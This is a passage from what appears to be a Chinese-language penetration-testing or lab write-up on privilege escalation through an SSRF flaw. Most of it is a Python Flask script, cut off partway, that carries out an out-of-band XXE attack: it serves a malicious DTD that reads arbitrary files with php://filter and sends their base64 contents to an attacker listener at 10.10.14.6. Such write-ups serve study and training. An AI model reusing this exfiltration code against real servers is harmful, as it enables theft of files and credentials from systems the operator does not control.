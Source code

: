 [![](assets/1699929055-23055b950579f6679e3e9e4f22848d57.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231113104027-0148fec2-81ce-1.png)

# 权限提升

## SSRF 漏洞

### 编写脚本

```bash
#!/usr/bin/python3

import base64
import logging
import readline
import requests
import threading
import time
from flask import Flask, request

log = logging.getLogger('werkzeug')
log.setLevel(logging.ERROR)

app = Flask(__name__)
prev_data = ""

xml_template = """<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://10.10.14.6/dtd?fn={}">
<data>&send;</data>"""

@app.route("/dtd")
def dtd():
    fn = request.args['fn']
    return f"""<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource={fn}">
    <!ENTITY % all "<!ENTITY send SYSTEM 'http://10.10.14.6/exfil?data=%file;'>">
    %all;"""


@app.route("/exfil")
def data():
    global prev_data
    b64data = request.args['data'].replace(' ', '+') # Flask tries to URL decode it
    print(b64data)
    print(len(b64data))
```